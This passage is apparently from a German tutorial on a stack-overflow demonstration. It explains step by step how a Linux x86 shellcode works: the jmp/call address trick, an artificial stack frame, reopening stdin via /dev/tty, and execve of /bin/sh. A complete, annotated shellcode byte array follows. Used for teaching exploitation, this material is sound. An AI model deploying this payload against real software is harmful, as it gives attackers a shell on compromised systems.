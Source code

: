 - Sprung zum Ende des Shellcodes (`call_position`) und wieder zurück an den Anfang. Damit liegt die Adresse des ersten Bytes nach dem call auf dem Stack. Diese wird dann in `%esi` gespeichert.
- Anlegen eines neuen Stackframes unterhalb des Shellcodes. Das Problem ist, dass in der Testumgebung (Solaris Brandz mit Linux) ein Aufruf von `int $0x80` in eine Anwendungsbibliothek (`lx_brandz.so.1`) weitergeleitet wird. Diese Funktionsaufrufe belegen natürlich Platz auf unserem Stack und überschreiben die Zeichenkette `"/bin/sh"` und die beiden Pointer `argv` und `env`. Durch das Erzeugen des neuen Stackframes werden die Daten vor dem Überschreiben geschützt.
- `stdin` schließen und wieder neu starten. Bei der Vorführung wird das Programm den Injection Vector (IV) per Pipe oder Eingabeumleitung lesen. Nach dem vollständigen Lesen des IV und anschließenden Starten von `/bin/sh` wird `read()` keine Daten mehr zu lesen haben, was die Shell als `EOF` interpretiert und sich beendet. Daher schließen wir die Pipe und öffnen `/dev/tty` als Dateideskriptor 0, was `stdin` entspricht.
- Ausführen von `/bin/sh`. Eine ausführliche Erklärung dieses Programmfragments findet sich in [Aleph One: Smashing The Stack For Fun And Profit. Phrack, Volume Seven, Issue Forty-Nine](http://www.phrack.com/issues.html?issue=49&id=14 "Smashing The Stack For Fun And Profit").

```c
char shellcode[] = 
  "\xeb\x43"      /*   jmp    0x804840d <call_position> */
  "\x5e"          /*   pop    %esi */
 /* create artificial stack begin */
  "\x89\xf4"      /*   mov    %esi, %esp */
  "\x89\xf5"      /*   mov  %esi, %ebp */
  "\x83\xed\x40"  /*   sub  $0x40, %ebp */
  "\x83\xec\x60"  /*   sub  $0x60, %esp */
 /* close stdin and reopen it */
  "\x56"          /*   push   %esi */
  "\x31\xc0"      /*   xor    %eax,%eax */
  "\xb0\x06"      /*   mov    $0x6,%al */
  "\x31\xdb"      /*   xor    %ebx,%ebx */
  "\xcd\x80"      /*   int    $0x80 */
  "\x5e"          /*   pop    %esi */
  "\x56"          /*   push   %esi */
  "\x31\xc0"      /*   xor    %eax,%eax */
  "\x88\x46\x0f"  /*   mov    %al,0x0f(%esi) */
  "\xb0\x05"      /*   mov    $0x5,%al */
  "\x8d\x5e\x07"  /*   lea    0x7(%esi),%ebx */
  "\x31\xc9"      /*   xor    %ecx,%ecx */
  "\xcd\x80"      /*   int    $0x80 */
  "\x5e"          /*   pop    %esi */
 /* exec /bin/sh (I copied the whole thing from shellcode.org) */
  "\x89\x76\x08"  /*   mov    %esi,0x8(%esi) */
  "\x31\xc0"      /*   xor    %eax,%eax */
  "\x88\x46\x07"  /*   mov    %al,0x7(%esi) */
  "\x89\x46\x0c"  /*   mov    %eax,0xc(%esi) */
  "\xb0\x0b"      /*   mov    $0xb,%al */
  "\x89\xf3"      /*   mov    %esi,%ebx */
  "\x8d\x4e\x08"  /*   lea    0x8(%esi),%ecx */
  "\x8d\x56\x0c"  /*   lea    0xc(%esi),%edx */
  "\xcd\x80"      /*   int    $0x80 */
  "\x31\xdb"      /*   xor    %ebx,%ebx */
  "\x89\xd8"      /*   mov    %ebx,%eax */
  "\x40"          /*   inc    %eax */
  "\xcd\x80"      /*   int    $0x80 */
  "\xe8\xb8\xff\xff\xff"  /*   call   start_of_exploit */
  "/bin/sh"
  "/dev/tty";
```
